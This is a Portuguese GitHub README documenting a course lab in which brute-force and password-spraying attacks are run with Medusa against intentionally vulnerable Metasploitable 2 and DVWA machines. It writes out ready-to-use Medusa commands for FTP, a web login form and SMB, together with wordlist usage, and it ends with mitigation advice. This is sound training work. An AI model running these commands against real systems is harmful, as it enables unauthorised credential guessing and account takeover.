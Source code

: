 # Medusa-Kali
Desafio DIO: Força Bruta com Kali Linux e Medusa
Esse modelo cobre:

* Introdução e contexto
* Estrutura do ambiente (com topologia)
* Ataques realizados: FTP, DVWA (formulário web), SMB
* Comandos utilizados
* Wordlists
* Resultados e capturas de tela (use a pasta `/images`)
* Mitigações sugeridas
* Conclusão

Este repositório documenta o projeto prático proposto no desafio da DIO, focando na simulação de ataques de força bruta em ambientes controlados utilizando as ferramentas Kali Linux, Medusa e máquinas vulneráveis como Metasploitable 2 e DVWA. O objetivo é compreender vulnerabilidades comuns, testar autenticações inseguras e propor boas práticas de segurança.

Objetivos

* Compreender o funcionamento de ataques de força bruta em diferentes serviços (FTP, Web, SMB).
* Configurar e utilizar o Medusa para automatizar tentativas de autenticação.
* Documentar processos técnicos de forma clara e estruturada.
* Propor medidas de mitigação realistas e eficazes.
* Utilizar o GitHub como portfólio técnico.

Ambiente de Testes

| Componente  | Descrição                                   |
| ----------- | ------------------------------------------- |
| Host        | Kali Linux (VM)                             |
| Alvo        | Metasploitable 2 + DVWA (VM)                |
| Rede        | Host-Only (VirtualBox)                      |
| Ferramentas | Medusa, curl, Hydra (opcional), rockyou.txt |

Topologia:


[ Kali Linux ] ←(Host-only)→ [ Metasploitable 2 + DVWA ]



Ataques Realizados

1.Ataque FTP com Medusa

Comando:

medusa -h 192.168.56.105 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ftp

Explicação:

* `-h`: IP do alvo
* `-u`: usuário
* `-P`: caminho da wordlist
* `-M`: módulo (FTP)

Resultado:
Credenciais descobertas: `msfadmin:msfadmin`
Acesso validado via `ftp`.

2. Força Bruta em Formulário Web (DVWA)

Pré-requisitos:
Configurar DVWA para **segurança: LOW

Comando com Medusa:

medusa -h 192.168.56.105 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m FORM \
  -e ns -T 5 -w 5 -b -f \
  -m DIR:/dvwa/login.php -m FORM:username=^USER^&password=^PASS^&Login=Login \
  -m DENY:"Login failed"

Explicação:

* Ataque no formulário de login da DVWA
* O parâmetro `DENY` identifica falhas com base na resposta da página

Resultado:
Login com senha válida foi identificado.

3.Password Spraying no SMB com Enum4Linux

Etapa 1: Enumeração de usuários


enum4linux -U 192.168.56.105


Etapa 2: Ataque SMB


medusa -h 192.168.56.101 -U users.txt -P rockyou.txt -M smbnt


Resultado:
Acesso obtido via SMB com usuário válido



Wordlists

Utilizada a wordlist **rockyou.txt**, já inclusa no Kali Linux, que conta com vários parâmetros sem a necessidade real de criar uma lista ampla:


/usr/share/wordlists/rockyou.txt


Obs: execute `gunzip rockyou.txt.gz` se necessário.



Evidências (Capturas de Tela)

As capturas estão na pasta [`/images`](./images):

`ftp_attack.png`
`dvwa_attack.png`
`smb_enum.png`
`success_login.png`

Recomendações de Mitigação

* Desabilitar serviços desnecessários (ex: FTP, Telnet).
* Aplicar bloqueios temporários após múltiplas tentativas falhas (ex: fail2ban).
* Implementar autenticação multifator (MFA).
* Utilizar senhas fortes e complexas, evitando padrões comuns.
* Atualizar e monitorar logs de autenticação regularmente.

Conclusão

Este projeto demonstrou, em um ambiente controlado, como ferramentas de ataque como o Medusa podem ser utilizadas para testar a segurança de serviços vulneráveis. A experimentação com wordlists e diferentes protocolos mostrou a importância da boa gestão de senhas, mitigações ativas contra ataques automatizados e que treinamento de pessoal com uma politica de seginfo bem estruturada ainda assim pode não ser suficiente para conter incidentes, mas diminui a probabilidade de sucesso de um ataque.

Referências

* [Kali Linux Tools](https://tools.kali.org/)
* [Medusa GitHub](https://github.com/jmk-foofus/medusa)
* [DVWA GitHub](https://github.com/digininja/DVWA)
* [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
* [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)



Autor

Carlos Eduardo Silva Bertazzoli
Projeto desenvolvido para o desafio da [Digital Innovation One (DIO)](https://www.dio.me)


